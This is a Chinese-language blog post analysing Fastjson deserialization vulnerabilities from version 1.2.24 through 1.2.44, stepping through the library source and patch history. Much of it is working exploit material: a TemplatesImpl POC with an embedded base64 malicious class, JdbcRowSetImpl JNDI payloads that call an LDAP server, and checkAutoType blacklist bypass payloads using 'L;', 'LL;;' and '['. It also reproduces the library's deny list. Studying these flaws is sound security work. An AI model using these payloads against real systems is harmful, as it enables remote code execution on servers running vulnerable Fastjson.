


基础
简介
FastJson是alibaba的一款开源JSON解析库，可用于将Java对象转换为其JSON表示形式，也可以用于将JSON字符串转换为等效的Java对象分别通过toJSONString和parseObject/parse来实现序列化和反序列化
加载依赖包
//pom.xml
<dependency>
<groupId>com.alibaba</groupId>
<artifactId>fastjson</artifactId>
<version>1.2.24</version>
</dependency>使用
对于序列化的方法toJSONString()有多个重载形式
SerializeFeature: 通过设置多个特性到FastjsonConfig中全局使用, 也可以在使用具体方法中指定特性SerializeFilter: 一个接口, 通过配置它的子接口或者实现类就可以以扩展编程的方式实现定制序列化SerializeConfig: 添加特点类型自定义的序列化配置
对于反序列化的方法parseObject()也同样有多个重载形式
序列化操作
可以发现这两个的区别，如果使用了toJSONString()的属性值SerializerFeature.WriteClassName，就会在序列化的时候多写入一个@type后面跟着的是反序列化的类名
反序列化操作
package pers.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
public class UnSerialTest {
public static void main(String[] args) {
String jsonStringWithType = "{\"@type\":\"pers.fastjson.Student\",\"name\":\"RoboTerh\"}";
String jsonStringWithoutType = "{\"name\":\"RoboTerh\"}";
System.out.println("use JSON.parse with type......");
Object o1 = JSON.parse(jsonStringWithType);
System.out.println(o1);
System.out.println("------------------------------------");
System.out.println("use JSON.parse without type....");
Object o2 = JSON.parse(jsonStringWithoutType);
System.out.println(o2);
System.out.println("-------------------------------------");
System.out.println("use JSON.parseObject with type.......");
JSONObject o3 = JSON.parseObject(jsonStringWithType);
System.out.println(o3);
System.out.println("--------------------------------------");
System.out.println("use JSON.parseObject without type.........");
JSONObject o4 = JSON.parseObject(jsonStringWithoutType);
System.out.println(o4);
System.out.println("----------------------------------------");
System.out.println("use JSON.parseObject without type but hava .Class");
Student o5 = JSON.parseObject(jsonStringWithoutType, Student.class);
System.out.println(o5);
}
}可以通过结果发现1和5成功反序列化，没成功都是因为没有确定需要反序列化的类
我们可以发现，在引入了@type之后，JSON.parseObject调用了getter/setter方法，JSON.parse调用了setter方法
当然，其他的方式也是可以调用getter方法的，但是有条件限制：
条件一、方法名需要长于4
条件二、不是静态方法
条件三、以get字符串开头，且第四个字符需要是大写字母
条件四、方法不能有参数传入
条件五、继承自Collection || Map || AtomicBoolean || AtomicInteger ||AtomicLong
条件六、此getter不能有setter方法（程序会先将目标类中所有的setter加入fieldList列表，因此可以通过读取fieldList列表来判断此类中的getter方法有没有setter）因为fastjson存在autoType机制, 当用户指定@type时, 存在调用恶意setter/getter的情况, 这就是fastjson反序列化漏洞.
简单的漏洞
//Evil.java
package pers.fastjson;
import java.io.IOException;
public class Evil {
private String name;
public Evil () {
System.out.println("构造方法");
}
public void setName(String name) throws IOException {
this.name = name;
System.out.println("调用了setName方法");
Runtime.getRuntime().exec("calc");
}
public String getName() {
System.out.println("调用了getName方法");
return name;
}
}//EvilTest.java
package pers.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
public class EvilTest {
public static void main(String[] args) {
String jsonString = "{\"@type\":\"pers.fastjson.Evil\",\"name\":\"RoboTerh\"}";
JSONObject o = JSON.parseObject(jsonString);
System.out.println(o);
}
}成功弹出了计算器
我们调式分析分析
在JSON.parseObject处下的断点
首先使用了parse()方法进行反序列化操作
在JSON.parse(String text, int features)创建了DefaultJSONParser对象
在成功创建了该对象之后通过判断ch是{ / [为token赋值，这里是12
在DefaultJSONParser#parse方法中通过判断token的值，进入创建了一个JSONObject对象
进parseObject方法, 这里会通过scanSymbol获取到@type指定类, 然后通过TypeUtils.loadClass方法加载Class.

先是首先在maping中寻找JDK的内置类，没有找到之后使用ClassLoader寻找，得到clazz的之后进行返回
创建了ObjectDeserializer并且调用了getDeserializer方法
Fastjson <=1.2.24反序列化漏洞
有两条利用链
- Templateslmpl
- JdbcRowSetlmpl
Templateslmpl利用链
如果一个类中的getter满足调用条件而且存在可利用点，攻击链就产生了
在com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl类中就存在一个私有变量_outputProperties，他的getter方法就满足在反序列化的时候的调用条件
分析利用链
从漏洞触发点开始Templateslmpl#getTransletInstance方法
这里通过调用_class[_transletIndex]的newInstance()方法进行实例化操作，我们追踪_class[_transletIndex]的出处，看看是否可以控制，进行恶意操作
值得注意的是，我们想要达到漏洞点，在getTransletInstance()方法的两个if语句中，我们需要保证他的_name这个私有属性不为空，否则就直接返回了null，而不会达到漏洞点
在第二个语句中就是通过defineTransletClasses()方法获得了_class和_transletIndex的值，进入它
首先判断_bytecodes是否为空，这里的_bytecodes同样是Templateslmpl类的成员变量，可控
如果这里不为空的话，就会执行

而且这里如果_tfactory不为空的话，就会导致出现异常，然后返回，不会继续执行程序，我们需要保证它不为null，虽然他也是Templateslmpl类的成员变量，但是他没有对应的setter，我们可以通过Feature.SupportNonPublicField来进行修改
接着走，在后面有一个for循环
通过loader.defineClass修饰之后将_bytecodes[i]赋值给_class[i]，跟进defineClass方法
他是ClassLoader的defineClass的重写，作用是将字节码转化为Class
转回defineTransletClasses，在if判断语句中，如果它是main class的时候我们就为_transletIndex赋值
现在重新回到getTranslateInstance()方法，现在这里的_class[_translateIndex]就是我们为_bytecodes赋值的恶意class，我们这里将他给实例化了，成功利用恶意类
现在我们可以知道getTranslateInstance()是可以执行恶意类的，我们搜索在Templateslmpl类中什么调用了这个方法的

可以发现在newTransformer()方法中使用了getTransletInstance()方法
继续搜索在哪里调用了newTransformer()方法
在getOutputProperties()方法调用了他，而且这个方法，在反序列化的时候会被调用，现在，这个利用链就完整了
//利用链
getOutputProperties()
newTransformer()
getTransletInstance()
defineTransletClasses()
_class[_transletIndex].newInstance() POC
package pers.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.codec.binary.Base64;
import java.io.IOException;
public class Fj24POC {
public static class RoboTerh {
}
public static String makeClasses() throws NotFoundException, CannotCompileException, IOException {
ClassPool pool = ClassPool.getDefault();
CtClass cc = pool.get(RoboTerh.class.getName());
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "RoboTerh" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));
byte[] evilCodes = cc.toBytecode();
return Base64.encodeBase64String(evilCodes);
}
public static String exploitString() throws NotFoundException, CannotCompileException, IOException {
String evilCodeBase64 = makeClasses();
final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
String exploit = "{'RoboTerh':{" +
"\"@type\":\"" + NASTY_CLASS + "\"," +
"\"_bytecodes\":[\"" + evilCodeBase64 + "\"]," +
"'_name':'RoboTerh'," +
"'_tfactory':{ }," +
"'_outputProperties':{ }" +
"}}\n";
return exploit;
}
public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
String exploit = exploitString();
System.out.println(exploit);
//JSON.parse(exploit, Feature.SupportNonPublicField);
//JSON.parseObject(exploit, Feature.SupportNonPublicField);
JSON.parseObject(exploit, Object.class, Feature.SupportNonPublicField);
}
}//payload
{"RoboTerh":{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQAJgoAAwAPBwAhBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAhSb2JvVGVyaAEADElubmVyQ2xhc3NlcwEAIExwZXJzL2Zhc3Rqc29uL0ZqMjRQT0MkUm9ib1Rlcmg7AQAKU291cmNlRmlsZQEADEZqMjRQT0MuamF2YQwABAAFBwATAQAecGVycy9mYXN0anNvbi9GajI0UE9DJFJvYm9UZXJoAQAQamF2YS9sYW5nL09iamVjdAEAFXBlcnMvZmFzdGpzb24vRmoyNFBPQwEACDxjbGluaXQ+AQARamF2YS9sYW5nL1J1bnRpbWUHABUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAXABgKABYAGQEABGNhbGMIABsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAdAB4KABYAHwEAFlJvYm9UZXJoMjY5OTQ4OTExMjAwMDABABhMUm9ib1RlcmgyNjk5NDg5MTEyMDAwMDsBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0BwAjCgAkAA8AIQACACQAAAAAAAIAAQAEAAUAAQAGAAAALwABAAEAAAAFKrcAJbEAAAACAAcAAAAGAAEAAAAPAAgAAAAMAAEAAAAFAAkAIgAAAAgAFAAFAAEABgAAABYAAgAAAAAACrgAGhIctgAgV7EAAAAAAAIADQAAAAIADgALAAAACgABAAIAEAAKAAk="],'_name':'RoboTerh','_tfactory':{ },'_outputProperties':{ }}}条件限制
需要开启Feature.SupportNonPublicField这个特性
JdbcRowSetImpl利用链
分析利用链
JdbcRowSetImpl类位于com.sun.rowset.JdbcRowSetImpl中，它本身没有实现Serializeble接口，但是他是BaseRowSet类的子类，该类实现了该接口，所以它可以进行序列化
链子的核心触发点是javax.naming.InitialContext#lookup的参数可控造成的漏洞
在JdbcRowSetImpl#setAutoCommit中如果this.conn为空的时候，就会调用this.connect方法

然后在connect方法中就会调用Javax.naming.InitialContext#lookup方法，参数是dataSourceName成员变量
//调用链
JdbcRowSetImpl对象
getDataSource
setAutocommit方法
context.lookup(datasourcename)POC
package pers.fastjson;
import com.alibaba.fastjson.JSON;
public class Fj24_Jdbc_POC {
public static void main(String[] args) {
String payload = "{" +
"\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
"\"dataSourceName\":\"ldap://127.0.0.1:8888/EvilObject\"," +
"\"autoCommit\":\"true\"," +
"}";
//JSON.parseObject(payload); 成功
//JSON.parse(payload); 成功
JSON.parseObject(payload, Object.class);
}
}//payload
{"RoboTerh":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
"autoCommit":true
}}条件限制
使用了JNDI注入，利用条件相对较低，但是需要连接远程恶意服务器，需要在有网的情况下执行
1.2.25<=fastjson<=1.2.41反序列化漏洞
从这个版本的fastjson中，对前面的漏洞进行了修复，引入了checkAutoType安全机制，默认autoTypeSupport关闭，不能直接反序列化任意类，而打开 AutoType 之后，是基于内置黑名单来实现安全的，fastjson 也提供了添加黑名单的接口。
更新主要在com.alibaba.fastjson.parser.ParserConfig中
- autoTypeSupport：是否开启任意类型的反序列化，默认关闭
- denyList：反序列化类的黑名单
- acceptList：反序列化类的白名单
//黑名单
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework添加白名单：
- 使用代码进行添加：
ParserConfig.getGlobalInstance().addAccept(“org.su18.fastjson.,org.javaweb.”) - 加上JVM启动参数：
-Dfastjson.parser.autoTypeAccept=org.su18.fastjson. - 在fastjson.properties中添加：
fastjson.parser.autoTypeAccept=org.su18.fastjson.
漏洞分析
跟进ParserConfig#checkAutoType
如果开启了autoType，他会先判断是否在白里面，如果在，就会进行加载，之后再次判断是否在黑名单里面，如果在，就会抛出异常
如果没有开启autoType，他会先判断是否在黑名单里面，如果在，就会抛出异常，之后再次判断是否在白名单里面，如果在，就进行加载
当然，还有需要反序列化的类既不在黑名单上又不在白名单上面，那就只能是开启了autoType或者expectClass不为空，才会加载这个类
那就跟进TypeUtils#loadClass，在加载类之前进行了递归调用来处理[ L ;等描述符
这里就存在一个逻辑漏洞，前面检查黑名单是使用的startswith来进行检测的，我们在前面加载上L字符和后面加上;，这样就可以绕过黑名单的检查了，这俩个字符也会在这个位置给处理掉了，就成功达到了我们的目的
POC
package pers.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
public class Fj25_Jdbc_POC {
public static void main(String[] args) {
String payload = "{\"RoboTerh\":{" +
"\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\"," +
"\"dataSourceName\":\"ldap://127.0.0.1:8888/EvilObject\"," +
"\"autoCommit\":true" +
"}}";
//开启autotype
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
JSON.parseObject(payload);
}
}//payload
{
"RoboTerh": {
"@type": "Lcom.sun.rowset.JdbcRowSetImpl;",
"dataSourceName": "ldap://127.0.0.1:8888/EvilObject",
"autoCommit": true
}
}条件限制
和前面的JdbcRowSetImpl利用链一样需要有网，还有就是需要开启AutoType
1.2.25<=fastjson<=1.2.42反序列化漏洞
jar包版本: 1.2.42
漏洞分析
仍然还是看看ParserConfig里面修改的内容
这不是直接把黑白名单给进行了hash处理，以防进行黑名单绕过
跟进ParserConfig#checkAutoType，发现多写了一个判断，这里使用hash写的
大概的意思是如果类的第一个字符是L，结尾的字符是;就会取第二个字符到倒数第二个字符的内容，就类似于进行了startwith这种函数来判断，但是这里只去除了一次，后面是递归操作，就可以双写绕过
POC
package pers.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
public class Fj42_Jdbc_POC {
public static void main(String[] args) {
String payload = "{\"RoboTerh\":{" +
"\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
"\"dataSourceName\":\"ldap://127.0.0.1:8888/EvilObject\"," +
"\"autoCommit\":true" +
"}}";
//开启autotype
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
JSON.parseObject(payload);
}
}//payload
{
"RoboTerh": {
"@type": "LLcom.sun.rowset.JdbcRowSetImpl;;",
"dataSourceName": "ldap://127.0.0.1:8888/EvilObject",
"autoCommit": true
}
}条件限制
和上一个版本是一样的
- 有网
- 开启
AutoType
1.2.25<=fastjson<=1.2.43反序列化漏洞
漏洞分析
这个版本在ParserConfig#checkAutoType中做出了修改
if ((((BASIC
^ className.charAt(0))
* PRIME)
^ className.charAt(className.length() - 1))
* PRIME == 0x9198507b5af98f0L)
{
if ((((BASIC
^ className.charAt(0))
* PRIME)
^ className.charAt(1))
* PRIME == 0x9195c07b5af5345L)
{
throw new JSONException("autoType is not support. " + typeName);
}
// 9195c07b5af5345
className = className.substring(1, className.length() - 1);
}如果出现了多个L，就会直接抛出异常
但是在loadClass中，同样对[进行了处理
if(className == null || className.length() == 0){
return null;
}
Class<?> clazz = mappings.get(className);
if(clazz != null){
return clazz;
}
if(className.charAt(0) == '['){
Class<?> componentType = loadClass(className.substring(1), classLoader);
return Array.newInstance(componentType, 0).getClass();
}
if(className.startsWith("L") && className.endsWith(";")){
String newClassName = className.substring(1, className.length() - 1);
return loadClass(newClassName, classLoader);
}我们就可以通过[进行黑名单绕过
Payload
{
"RoboTerh": {
"@type": "[com.sun.rowset.JdbcRowSetImpl"[{,
"dataSourceName": "ldap://127.0.0.1:8888/EvilObject",
"autoCommit": true
}
}条件限制
和之前的一样
fastjson1.2.44
分析
这个版本主要是修复了上一个版本利用[进行绕过的方法
final long h1 = (BASIC ^ className.charAt(0)) * PRIME;
if (h1 == 0xaf64164c86024f1aL) { // [
throw new JSONException("autoType is not support. " + typeName);
}后序版本的payload在另一篇文章


- Post link: https://roboterh.github.io/2022/03/21/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E1/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.